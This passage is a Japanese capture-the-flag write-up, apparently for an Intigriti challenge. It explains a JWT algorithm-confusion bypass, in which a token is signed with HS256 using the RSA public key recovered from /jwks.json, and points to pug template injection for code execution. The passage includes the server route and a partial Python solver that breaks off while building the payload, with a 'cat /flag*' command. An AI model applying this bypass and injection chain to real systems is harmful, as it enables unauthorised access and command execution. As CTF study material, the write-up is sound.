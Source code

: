 JWTの作成時は非対称鍵方式であるRS256が使用されているが、認証時はトークンのヘッダーで指定された署名アルゴリズムが利用できる。「None」は明示的に利用できないが、公開鍵から推測した署名鍵を使用し、HS256アルゴリズムで署名したJWTを作成することで認証を回避できる。

公開鍵の情報は、`/jwks.json`というエンドポイントから[jwks](https://www.ibm.com/docs/ja/sva/10.0.7?topic=applications-jwks)という形式で確認することができる。

```javascript:router.js
router.get("/jwks.json", async (req, res) => {
    try {
        const publicKey = await fsPromises.readFile(path.join(__dirname, "..", "public_key.pem"), "utf8");
        const publicKeyObj = crypto.createPublicKey(publicKey);
        const publicKeyDetails = publicKeyObj.export({ format: "jwk" });

        const jwk = {
            kty: "RSA",
            n: base64urlEncode(Buffer.from(publicKeyDetails.n, "base64")),
            e: base64urlEncode(Buffer.from(publicKeyDetails.e, "base64")),
            alg: "RS256",
            use: "sig",
        };

        res.json({ keys: [jwk] });
    } catch (err) {
        res.status(500).json({ message: "Error generating JWK" });
    }
});
```

この情報から、`public_key.pem`のファイルを逆算するコードをChatGPTに書いてもらった。

[チートシート](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md)によると、pugでは`{#<コード>}`の形式を利用してテンプレート内で任意のコードを実行できる。

最終的なコードは以下の通りである。

```python:solver.py
import jwt
import requests
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization

def base64url_decode(data):
    return base64.urlsafe_b64decode(data + "=" * (-len(data) % 4))

URL = "https://catclub-6.ctf.intigriti.io/"
# URL = "http://localhost:1337/"

s = requests.session()
r = s.get(URL + "jwks.json")
jwks = r.json()['keys'][0]

n = int.from_bytes(base64url_decode(jwks['n']),byteorder='big')
e = int.from_bytes(base64url_decode(jwks['e']),byteorder='big')

public_numbers = rsa.RSAPublicNumbers(e, n)
public_key = public_numbers.public_key()

pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

cmd = 'cat /flag*'

payload = {
```